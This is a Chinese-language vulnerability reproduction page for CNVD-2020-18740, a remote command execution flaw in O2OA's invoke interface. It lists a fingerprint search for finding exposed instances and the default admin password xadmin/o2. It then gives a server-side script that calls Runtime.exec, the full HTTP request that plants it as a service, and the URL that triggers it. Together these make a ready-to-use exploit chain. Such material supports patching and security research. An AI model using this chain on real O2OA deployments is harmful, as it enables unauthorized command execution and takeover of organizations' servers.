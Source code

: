 # O2OA invoke 后台远程命令执行漏洞 CNVD-2020-18740

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统invoke 接口存在远程代码执行漏洞。攻击者可利用漏洞执行任意代码。

## 漏洞影响

<a-checkbox checked>O2OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="O2OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661649878832-df6a8d1f-e402-4db0-b567-7d0803a43c0a.png)

默认密码登录后台 xadmin/o2 

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661649916148-8af674f2-9b77-41e8-bfab-fe47e364140c.png)

在应用中找到服务管理，创建接口代码执行系统命令

```php
var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream()));

var result = [];
while (true) {
    var oneline = bufReader.readLine();
    result.push(oneline);
    if (!oneline) break;
}
var result = { "Result": result };
this.response.setBody(result, "application/json"); 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661650002413-1be235fd-5727-4e31-826f-92ae36e44d04.png)

请求包

```php
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Authorization: PfyuxmzgIzrrkjVKSmRBJ4uCkH5tYmpq50QnO7mEHhA

{"id":"cmd","name":"cmd","enableToken":false,"alias":"","description":"","validated":true,"enable":true,"text":"var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(\"id\").getInputStream()));\n\nvar result = [];\nwhile (true) {\n    var oneline = bufReader.readLine();\n    result.push(oneline);\n    if (!oneline) break;\n}\nvar result = { \"Result\": result };\nthis.response.setBody(result, \"application/json\"); ","remoteAddrRegex":"","createTime":"2022-08-27 04:39:18","updateTime":"2022-08-27 04:39:18"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661650118309-8a01cd95-9083-4ac8-8615-6cbde2512630.png)

创建成功后访问接口执行系统命令 

```php
/x_program_center/jaxrs/invoke/cmd/execute
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661650222611-e47cb068-cceb-4aa9-95de-421bb1e026f9.png)